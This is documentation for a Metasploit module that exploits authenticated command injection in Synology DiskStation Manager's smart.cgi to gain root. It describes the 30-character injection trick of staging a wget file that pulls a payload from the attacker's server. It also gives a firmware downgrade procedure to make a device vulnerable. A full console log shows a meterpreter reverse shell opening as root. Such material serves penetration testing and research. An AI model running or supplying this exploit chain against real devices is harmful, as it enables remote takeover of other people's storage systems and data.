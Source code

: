 ## Vulnerable Application

This module exploits a vulnerability found in Synology DiskStation Manager (DSM)
versions < 5.2-5967-5, which allows the execution of arbitrary commands under root
privileges after website authentication.

The vulnerability is located in `webman/modules/StorageManager/smart.cgi`, which
allows appending of a command to the device to be scanned.  However, the command
with drive is limited to 30 characters.  A somewhat valid drive name is required,
thus /dev/sd is used, even though it doesn't exist.  To circumvent the character
restriction, a wget input file is staged in /a, and executed to download our payload
to /b.  From there the payload is executed.  A wfsdelay is required to give time
for the payload to download, and the execution of it to run.

A more detailed explination of exploitation steps:

1. We first clean the env by deleting `/a`, and `b`
2. we use `echo -n` to append our IP:PORT for our staging server to `/a`.  This is
done in small chunks to stay under the character limit.
3. we call `wget -i /a -O b` to write our payload to `b` in `/usr/syno/synoman/webman/modules/StorageManager`
4. we wait for HTTP Server to receive the `wget` request and send back the payload.  Then we execute it.

### Notes

`smart.cgi` and our payload are located in `/usr/syno/synoman/webman/modules/StorageManager`.

`/var/log/messages` will contain logs of exploitation:

```
May 19 16:35:50 oldNas smart.cgi: smart.cpp:477 smartctl system command failed cmd: /usr/syno/bin/smartctl -d sat -t short /dev/sd`wget -i /a -O b` > /dev/null 2>&1 ret: 4
May 19 16:35:50 oldNas smart.cgi: smart.cpp:846 error
```

No randomization was chosen on the `a` and `b` file names since we're so limited on characters as it is.
While it would be possible to randomize a single character, it didn't seem worth the effort.

### Device Downgrade

The vulnerable DSM can be downloaded from [Synology](https://archive.synology.com/download/DSM/release/5.2/5644/)

Essentially Synology doesn't want you to downgrade. In order to do so, we need to mount the recovery boot loader
and overwrite it with synology 5.2.  Then when we cause an issue (by removing the disks on boot), it will boot
to the recovery.  Since the recovery is 5.2, it will let us install the 'current' version of 5.2.

You'll want to watch [Downgrade DSM6.x to DSM 5.2](https://youtube.com/watch?v=DFtOmEv63n4)

The notes from the video are:

1. Turn on synology and backup data if needed.
2. Create a shared folder. ("test" is used in this guide)
3. Locally, extract 4 files from DSM 5644.pat (grub_cksum.syno, rd.gz, zImage, checksum.syno)
and place the files in the newly created shared folder on the NAS.
4. Enable telnet/ssh in the DSM control panel.
5. telnet/ssh to the diskstation.
6. Log in as admin.
7. Type `sudo su`. The password it asks for will also be the admins password.
8. Type `cd /dev` to change to the devices directory.
9. Type `ls synoboot2` to make sure synoboot2 is listed.
10. Type `mkdir /mnt/synoboot` to make a directory to mount to.
11. Type `mount synoboot2 /mnt/synoboot` to mount the boot files to the directory we created.
12. Type `cd /mnt/synoboot` to change to that directory.
13. Type `ls` to view the files in the directory.
(note that the names of the 4 files we put in the shared folder, should be there.
Although these ones listed are the DSM6 versions)
14. Type `cp /volume1/test/checksum.syno /mnt/synoboot`.
15. Type `cp /volume1/test/grub_cksum.syno /mnt/synoboot`.
16. Type `cp /volume1/test/rd.gz /mnt/synoboot`.
17. Type `cp /volume1/test/zImage /mnt/synoboot`.
18. Go back into the DSM interface and shutdown. Once the device is shutdown, remove the disks.
(This step is important because if you do not remove the disks,
the next powerup will detect an issue and recover the DSM6 boot image)
19. Power the device up. Should say no disks inserted.
Before clicking the connect again button, put the hard disks back in and wait for the HDD LED's to light up.
20. If disks are in, click the connect again button.
Next page should come up saying to reinstall DSM.
Make sure to choose the 5967 pat file so that the bootimage is overwritten correctly.
21. Good to go! Data should remain intact as long as it is in a shared folder,
and DSM should be a completely stock 5.2 - 5967.

## Verification Steps

  1. Install the 5.2 vulnerable DSM
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/synology_dsm_smart_exec_auth```
  4. Do: ```set username <username>```
  5. Do: ```set password <password>```
  6. Do: ```run```
  7. You should get a root shell.

## Options

### Password

Password for website login.  Default is `password`.

### Username

Username for website login.  Default is `admin`.

### wfsdelay

Wfsdelay needs to be at least a couple seconds to allow for payload download and staging.  Default is `10`.

## Scenarios

### DS412+ with DSM 5.2-5644

  ```
  [*] Processing synology.rc for ERB directives.
  resource (synology.rc)> use modules/exploits/linux/http/synology_dsm_smart_exec_auth
  resource (synology.rc)> set payload python/meterpreter/reverse_tcp
  payload => python/meterpreter/reverse_tcp
  resource (synology.rc)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (synology.rc)> set lport 60111
  lport => 60111
  resource (synology.rc)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (synology.rc)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (synology.rc)> set username admin
  username => admin
  resource (synology.rc)> set password password
  password => password
  resource (synology.rc)> set verbose true
  verbose => true
  resource (synology.rc)> rexploit
  [*] Reloading module...
  [*] Started reverse TCP handler on 1.1.1.1:60111 
  [*] Trying to detect installed version
  [*] Model DS412+ with version 5.2-5644 detected
  [*] Attempting Login
  [*] Using URL: http://1.1.1.1:8080/
  [*] Cleaning env
  [*] Staging wget with: echo -n '1.1'>>/a
  [*] Staging wget with: echo -n '.1.1:'>>/a
  [*] Staging wget with: echo -n '8080'>>/a
  [*] Requesting payload pull
  [+] HTTP Server request received, sending payload
  [*] Executing payload
  [*] Sending stage (53755 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:60111 -> 2.2.2.2:42353) at 2020-05-19 20:13:33 -0400
  [*] Server stopped.
  [!] This exploit may require manual cleanup of '/usr/syno/synoman/webman/modules/StorageManager/b' on the target
  [!] This exploit may require manual cleanup of '/a' on the target

  meterpreter > 
  [+] Deleted /usr/syno/synoman/webman/modules/StorageManager/b
  [+] Deleted /a

  meterpreter > getuid
  Server username: root
  meterpreter > sysinfo
  Computer     : oldNas
  OS           : Linux 3.10.35 #5644 SMP Thu Nov 12 17:18:22 CST 2015
  Architecture : x64
  Meterpreter  : python/linux
  meterpreter > cat /etc.defaults/VERSION
  majorversion="5"
  minorversion="2"
  buildphase="hotfix"
  buildnumber="5644"
  smallfixnumber="0"
  builddate="2015/11/12"
  buildtime="17:17:21"
  meterpreter > 
  ```
